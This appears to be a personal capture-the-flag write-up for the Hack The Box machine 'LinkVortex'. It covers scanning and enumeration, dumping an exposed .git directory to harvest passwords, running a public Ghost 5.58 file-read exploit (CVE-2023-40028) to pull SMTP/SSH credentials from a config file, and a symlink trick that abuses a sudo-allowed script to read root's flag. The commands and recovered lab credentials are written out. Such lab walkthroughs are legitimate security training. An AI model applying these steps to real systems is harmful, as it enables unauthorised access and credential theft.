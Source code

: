 ```yaml
---
layout: post
title: "LinkVortex"
date: 2025-04-20 
categories: ctf
---
```


# Attack Path

First enumerate the open ports:

```bash
rustscan -a 10.129.231.194

sudo nmap -sC -sV -p 22,80 -oA nmap/linkvortex 10.129.231.194

result:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 03:57 GMT
Nmap scan report for 10.129.231.194
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://linkvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.85 seconds

```

We see the domain name, let’s add that to /etc/hosts.

Let’s enumerate for subdomains:

```bash
ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 14

dev
```

Also upon visiting the site, webappalyzer tells us that the site uses Ghost 5.58 as its CMS. Searching for this version of exploit, it resulted in a authenticated file read exploit where we need valid credentials. A Google search tells us the url for login is at /ghost and trying the default admin:admin does not work.

Let’s also enumerate for subdirectories:

```bash
gobuster dir -u http://dev.linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt

/.git                 (Status: 301) [Size: 239] [--> http://dev.linkvortex.htb/.git/]                                                                     
/.git/HEAD            (Status: 200) [Size: 41]                                                                                                            
/.git/config          (Status: 200) [Size: 201]                                                                                                           
/.git/logs/           (Status: 200) [Size: 868]                                                                                                           
/.htpasswd            (Status: 403) [Size: 199]                                                                                                           
/.hta                 (Status: 403) [Size: 199]                                                                                                           
/.htaccess            (Status: 403) [Size: 199]                                                                                                           
/.git/index           (Status: 200) [Size: 707577]                                                                                                        
/cgi-bin/             (Status: 403) [Size: 199]                                                                                                           
/index.html           (Status: 200) [Size: 2538]                                                                                                          
/server-status        (Status: 403) [Size: 199]
```

The reason you need to use tools like **git-dumper** or **dumper.py** to dump the entire `.git` directory instead of just viewing it from the web is due to the way the `.git` directory is structured and how it works. Here’s why:

---

### **1. `.git` is a Version Control Repository**

The `.git` directory is not a single file you can view in a browser; it is a **repository structure** used by Git to store:

- Version history
- Metadata
- Objects (commits, blobs, trees)
- Configuration

The contents are highly fragmented and not easily interpretable by simply browsing the web.

---

### **2. Critical Information is Stored in Non-Human-Readable Formats**

The `.git` directory contains many binary files and structured data:

- The commit history and file contents are stored as **objects** (compressed blobs).
- You can’t directly view meaningful files like source code or configurations just by accessing `.git` via the web.

For example:

- **`objects/`**: Contains hashed objects (files, commits, etc.).
- **`refs/`**: Contains branch references, like `refs/heads/master`.
- **`HEAD`**: Points to the current branch.

Without specialized tools, reconstructing the repository manually is nearly impossible.

Now let’s use something like git-dumper

```bash
python3 -m venv myenv
source myenv/bin/activate
pip3 install git-dumper

#Now let's dump .git dir
git-dumper http://dev.linkvortex.htb .git
```

Now let’s try and find credentials from the whole .git directory:

```bash
grep -rEi "password\s*=\s*'[^']+'" .

result:
./ghost/core/test/regression/api/content/pages.test.js:        const hashedPassword = '$2a$10$FxFlCsNBgXw42cBj0l1GFu39jffibqTqyAGBz7uCLwetYAdBYJEe6';
./ghost/core/test/regression/api/content/pages.test.js:        const hashedPassword = '$2a$10$FxFlCsNBgXw42cBj0l1GFu39jffibqTqyAGBz7uCLwetYAdBYJEe6';
./ghost/core/test/regression/api/content/posts.test.js:        const hashedPassword = '$2a$10$FxFlCsNBgXw42cBj0l1GFu39jffibqTqyAGBz7uCLwetYAdBYJEe6';
./ghost/core/test/regression/api/content/posts.test.js:        const hashedPassword = '$2a$10$FxFlCsNBgXw42cBj0l1GFu39jffibqTqyAGBz7uCLwetYAdBYJEe6';
./ghost/core/test/regression/api/content/authors.test.js:        const hashedPassword = '$2a$10$FxFlCsNBgXw42cBj0l1GFu39jffibqTqyAGBz7uCLwetYAdBYJEe6';
./ghost/core/test/regression/api/content/authors.test.js:        const hashedPassword = '$2a$10$FxFlCsNBgXw42cBj0l1GFu39jffibqTqyAGBz7uCLwetYAdBYJEe6';
./ghost/core/test/regression/api/admin/authentication.test.js:            const password = 'OctopiFociPilfer45';
./ghost/core/test/regression/api/admin/authentication.test.js:            const password = 'thisissupersafe';
```

Next let’s go the config file in question and find if there are any associated usernames. However the usernames don’t seem to work. Let’s try and guess a username e.g. admin@linkvortex.htb

Now searching we have credentials, searching for ghost 5.58 exploit lead us to https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028. Let’s clone the repo and try and execute the exploit:

```bash
./cve-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb/ghost/#/dashboard
```

Does  not work. Let’s try and search for more exploit. This is all just guess work, if one doesn’t work try and find another with another programming language, on Google: Ghost 5.58 exploit arbitrary file read python. https://github.com/monke443/CVE-2023-40028-Ghost-Arbitrary-File-Read

```bash
python3 exploit.py --user admin@linkvortex.htb --password OctopiFociPilfer45 --url http://linkvortex.htb/
```

Now we have arbitrary read.

Back in the .git dir, let’s reread the Docker file. 

```bash
# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

```

This line seems interesting as it might contain credentials. Let’s try and read that with our POC:

```bash
result:
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"

```

Now let’s try and ssh in with the acquired credentials:

```bash
ssh bob@10.129.179.105 #fibber-talented-worth"
```

We are logged in as user bob. Let’s check our sudo privileges:

```bash
sudo -l

result:
User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Putting that script in chatgpt and get it to suggest a way to bypass the png sanitization results us in symlink. Let’s try that:

```bash
ln -s /proc/self/root/root/flag.txt /tmp/malicious.png
sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /tmp/malicious.png
```

Does not work. Based on this principle, let’s try and create two links:

```bash
#we also have to set the CHECK_CONTENT=true

export CHECK_CONTENT=true
ln -sf /root/root.txt flag.png
ln -sf /home/bob/flag.png flag2.png    #Need the full path /home/bob
sudo /usr/bin/bash /opt/ghost/clean_symlink.sh flag2.png
```